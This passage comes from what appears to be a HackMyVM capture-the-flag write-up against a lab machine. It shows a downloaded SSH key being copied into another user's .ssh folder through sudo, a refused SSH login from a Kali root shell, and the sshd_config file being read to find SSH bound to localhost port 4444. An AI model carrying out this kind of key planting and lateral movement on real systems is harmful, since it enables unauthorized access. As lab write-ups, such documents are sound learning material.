 ```bash
Length: 563 [application/vnd.exstream-package]
Saving to: ‘id_rsa.pub’

id_rsa.pub          100%[===================>]     563  --.-KB/s    in 0s      

2021-12-28 05:12:24 (224 MB/s) - ‘id_rsa.pub’ saved [563/563]

$ sudo -u melisa cp id_rsa.pub /home/melisa/.ssh/id_rsa.pub
sudo -u melisa cp id_rsa.pub /home/melisa/.ssh/id_rsa.pub
```

Let's SSH into melisa!

```bash
Cant SSH into server because no SSH connection
┌──(root💀kali)-[/opt/hackmyv/five]
└─# ssh melisa@192.168.56.27 -i id_rsa.pub 
ssh: connect to host 192.168.56.27 port 22: Connection refused
```
### Attempt 2

Looking at the ssh configuratiion can see it's listening internally on port 4444 internally.
```bash
$ cat /etc/ssh/sshd_config                                                                                                                                                
cat /etc/ssh/sshd_config                                                                                                                                                  
#       $OpenBSD: sshd_config,v 1.103 2018/04/09 20:41:22 tj Exp $                                                                                                        
                                                                                                                                                                          
# This is the sshd server system-wide configuration file.  See                                                                                                            
# sshd_config(5) for more information.                                                                                                                                    
                                                                                                                                                                          
# This sshd was compiled with PATH=/usr/bin:/bin:/usr/sbin:/sbin                                                                                                          
                                                                                                                                                                          
# The strategy used for options in the default sshd_config shipped with                                                                                                   
# OpenSSH is to specify options with their default value where                                                                                                            
# possible, but leave them commented.  Uncommented options override the                                                                                                   
# default value.                                                                                                                                                          
                                                                                                                                                                          
Port 4444                                                                                                                                                                 
#AddressFamily any                                                                                                                                                        
ListenAddress 127.0.0.1                                                                                                                                                   
#ListenAddress ::  
```
Now, we try to ssh internally after porting our own id_rsa over!
